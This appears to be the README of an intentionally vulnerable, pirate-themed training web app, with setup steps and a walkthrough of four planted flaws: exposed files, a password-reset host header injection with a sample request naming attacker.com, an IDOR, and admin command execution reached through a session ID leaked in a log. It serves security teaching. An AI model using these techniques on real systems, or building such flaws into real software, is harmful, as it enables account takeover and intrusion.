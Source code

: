 # Pirate-themed Vulnerable App

This app is intentionally vulnerable!

# How to Run

* Install the Python dependencies: 
    - `pipenv shell`
    - `pipenv install`
* Run the Python API via `python3 app.py`
* Run Nginx via `docker run --name my-nginx -p 80:80 -v ./nginx.conf:/etc/nginx/nginx.conf:ro -d nginx`

# Vulnerability 1: Exposed Files

* We run `gobuster dir -u http://localhost -w ./wordlists/1.txt` 
* Looking at the output, we find `/pirates` exposed
* We visit `http://localhost/pirates` and find `http://localhost/pirates/treasure.txt`

# Vulnerability 2: Host Header Injection in Password Reset

* Send a `POST` request like:

```
POST /reset-password HTTP/1.1
Host: attacker.com
Content-Length: 25

{"email":"test@test.com"}
```

# Vulnerability 3: IDOR

* Check out the 'Loot' functionality and realize that you can access, without authentication, any loot if you know the `id`
* Check out the `production.log` again and find the `id` of the `admin` user

# Vulnerability 4: Admins can Exeucte OS Commands

* This is of course only like god-level bad if we can take over an admin account... So that's what we're gonna do here
* First, we find the admin's `sessionId` in the `production.log` and then run commands